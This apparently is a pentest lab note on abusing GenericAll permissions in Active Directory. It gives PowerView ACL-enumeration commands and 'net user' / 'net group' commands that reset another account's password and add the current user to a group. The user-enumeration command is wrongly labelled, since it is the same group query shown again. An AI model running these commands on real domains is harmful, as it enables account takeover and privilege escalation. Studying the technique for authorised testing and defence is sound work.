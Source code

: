 ## Enumeration And Exploit
We can use the following command to enumerate any users who our current domain user has GenericAll rights on:
```Powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

This will enumerate all ACEs for all domain users, filtered by our current user.

![](../../../Screenshots/as-da-ac.png)

The GenericAll access right gives us full control over the user, which among other things, allows us to change the password of the account without knowledge of the old password:
```shell
net user testservice1 h4x /domain
```

we can also enumerate all domain groups that our current user has explicit access rights to by piping the output of Get-DomainGroup into Get-ObjectAcl and filtering it

```Powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

With the having GenericAll rights on a group we can add ourselves in the same group with:
```sh
net group testgroup offsec /add /domain
```


